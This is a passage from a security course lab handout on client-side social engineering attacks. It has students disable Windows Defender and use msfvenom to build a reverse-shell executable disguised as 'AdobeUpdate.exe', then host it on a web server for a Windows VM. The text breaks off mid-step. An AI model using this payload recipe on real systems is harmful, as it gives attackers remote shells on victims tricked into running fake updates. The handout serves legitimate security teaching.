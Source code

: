```yaml
---

title: Lab &ndash; Social Engineering
number: 11
---
```


Today, social engineering attacks represent a major primary vector for hackers. As Bruce Schneier said, “Only amateurs attack machines; professionals target people.”[1](https://www.schneier.com/crypto-gram-0010.html)  Further, client-side software represents a much larger attack surface than server-side software. For these reason, many of the major breaches you read about in the news began with a client-side attack. 

In this lab you’ll use two leading tools to perform client-side attacks: msfvenom and the Social Engineering Toolkit (SET).

# Part 1. MSFVenom

In this section, you’ll use msfvenom to perform a client-side attack. Msfvenom can be used to turn Metasploit payloads into stand-alone executables that a user can be tricked into running. Your goal is to (1) create a malicious executable file, (2) host it on a web server, and (3) exploit a Windows 10 VM.

1.	Open your Kali Linux and Windows 10 VMs. Make sure that both are on the same subnet and can ping each other.
2.	On Windows, make sure Windows Defender is turned off. Run:
	* click the windows button on the bottom left of the desktop and searching for 'Defender' and choose 'Windows Defender Security Center'
	* click 'Virus & Threat protection settings'
	* move the 'Real-time protection' slider to the left.

4.	In Kali, type `msfvenom --help-formats` to see a list of output formats that msfvenom supports. We’ll use the `-f exe` option to create a Windows executable.
5.	In Kali, run the following command, all on one line:

        msfvenom -p windows/shell/reverse_tcp LHOST=[your Kali IP] LPORT=8080 -f exe > /tmp/AdobeUpdate.exe

    Where:

    * `-p`		Selects the payload
    * `-f`		Selects the file type of the output executable
    * `LHOST	`   The IP of your Kali Linux VM
    * `LPORT` 	The listening port on your Kali Linux VM

6.	Verify that the output file is about 73802 bytes in size. If not, you may need to check that you entered the command correctly and run it again.
7.	Now, set up a web server to host your malicious file. Change directories to /tmp by entering `cd /tmp`.
8.	Run this command:

        python -m SimpleHTTPServer 8888
        
9.	On your Windows 10 VM, browse to: 
